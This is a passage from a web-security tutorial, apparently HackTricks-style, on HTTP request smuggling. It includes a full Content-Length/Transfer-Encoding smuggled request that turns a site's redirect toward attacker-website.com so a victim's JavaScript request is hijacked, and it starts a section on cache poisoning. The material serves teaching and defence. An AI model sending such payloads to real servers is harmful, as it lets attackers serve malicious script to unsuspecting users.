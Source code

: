 
```
GET /home HTTP/1.1
Host: normal-website.com
```

Results in:



```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Though seemingly harmless, this behavior can be manipulated using HTTP request smuggling to redirect users to an external site. For example:


```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

This smuggled request could cause the next processed user request to be redirected to an attacker-controlled website:



```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

Results in:



```
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

In this scenario, a user's request for a JavaScript file is hijacked. The attacker can potentially compromise the user by serving malicious JavaScript in response.

#### Exploiting Web Cache Poisoning via HTTP Request Smuggling

Web cache poisoning can be executed if any component of the **front-end infrastructure caches content**, typically to enhance performance. By manipulating the server's response, it's possible to **poison the cache**.

